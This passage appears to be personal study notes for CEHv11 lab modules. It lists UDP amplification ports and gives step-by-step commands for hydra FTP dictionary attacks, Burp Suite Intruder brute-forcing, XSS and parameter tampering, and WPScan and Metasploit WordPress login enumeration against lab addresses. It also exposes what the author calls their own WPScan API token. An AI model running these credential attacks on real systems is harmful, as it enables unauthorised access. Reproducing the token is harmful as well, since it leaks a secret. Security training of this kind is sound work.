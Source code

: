   - CharGen UDP Port 19
  - SNMPv2 UDP Port 161
  - QOTD UDP Port 17
  - RPC UDP Port 135
  - SSDP UDP Port 1900
  - CLDAP UDP Port 389
  - TFTP UDP Port 69
  - NetBIOS UDP Port 137,138,139
  - NTP UDP Port 123
  - Quake Network Protocol UDP Port 26000
  - VoIP UDP Port 5060

**Module 13: Hacking Web Servers**

**Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**

- nmap -p 21 [IP]
- **hydra -L /home/attacker/Desktop/Wordlists/usernames.txt -P /home/attacker/Desktop/Wordlists/passwords.txt ftp://10.10.10.10**

**Module 14: Hacking Web Applications**

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite**

- Set proxy for browser: 127.0.0.1:8080
- Burpsuite
- Type random credentials
- capture the request, right click-\&gt;send to Intrucder
- Intruder-\&gt;Positions
- Clear $
- Attack type: Cluster bomb
- select account and password value, Add $
- Payloads: Load wordlist file for set 1 and set 2
- start attack
- **filter status==302**
- open the raw, get the credentials
- recover proxy settings

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

- Log in a website, change the parameter value (id )in the URL
- Conduct a XSS attack: Submit script codes via text area

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit**

- **wpscan –api-token [API Token] –url**  **http://10.10.10.16:8080/CEH**  **--plugins-detection aggressive --enumerate** u
  - **--enumerate u: Specify the enumeration of users**
  - **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  - **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
- service postgresql start
- msfconsole
- **use auxiliary/scanner/http/wordpress\_login\_enum**
- show options
- **set PASS\_FILE /home/attacker/Desktop/CEHv11 Module 14 Hacking Web Applications/Wordlist/password.txt**
- **set RHOST 10.10.10.16**
- **set RPORT 8080**
- **set TARGETURI**  **http://10.10.10.16:8080/CEH**
- **set USERNAME admin**
- run
- Find the credential
